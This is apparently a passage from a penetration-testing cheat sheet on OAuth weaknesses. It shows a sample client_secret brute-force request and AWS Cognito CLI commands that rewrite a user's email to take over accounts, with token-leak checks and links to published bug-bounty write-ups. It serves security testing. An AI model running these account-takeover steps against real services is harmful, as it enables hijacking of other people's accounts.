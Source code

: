 ### Client Secret Bruteforce

You can try to **bruteforce the client_secret** of a service provider with the identity provider in order to be try to steal accounts.\
The request to BF may look similar to:

```
POST /token HTTP/1.1
content-type: application/x-www-form-urlencoded
host: 10.10.10.10:3000
content-length: 135
Connection: close

code=77515&redirect_uri=http%3A%2F%2F10.10.10.10%3A3000%2Fcallback&grant_type=authorization_code&client_id=public_client_id&client_secret=[bruteforce]
```

### Referer Header leaking Code + State

Once the client has the **code and state**, if it's **reflected inside the Referer header** when he browses to a different page, then it's vulnerable.

### Access Token Stored in Browser History

Go to the **browser history and check if the access token is saved in there**.

### Everlasting Authorization Code

The **authorization code should live just for some time to limit the time window where an attacker can steal and use it**.

### Authorization/Refresh Token not bound to client

If you can get the **authorization code and use it with a different client then you can takeover other accounts**.

### Happy Paths, XSS, Iframes & Post Messages to leak code & state values

[**Check this post**](https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/#gadget-2-xss-on-sandbox-third-party-domain-that-gets-the-url)

### AWS Cognito <a href="#bda5" id="bda5"></a>

In this bug bounty report: [**https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/**](https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/) you can see that the **token** that **AWS Cognito** gives back to the user might have **enough permissions to overwrite the user data**. Therefore, if you can **change the user email for a different user email**, you might be able to **take over** others accounts.

```bash
# Read info of the user
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQiOiJPVj[...]

# Change email address
aws cognito-idp update-user-attributes --region us-east-1 --access-token eyJraWQ[...] --user-attributes Name=email,Value=imaginary@flickr.com
{
    "CodeDeliveryDetailsList": [
        {
            "Destination": "i***@f***.com",
            "DeliveryMedium": "EMAIL",
            "AttributeName": "email"
        }
    ]
}
```
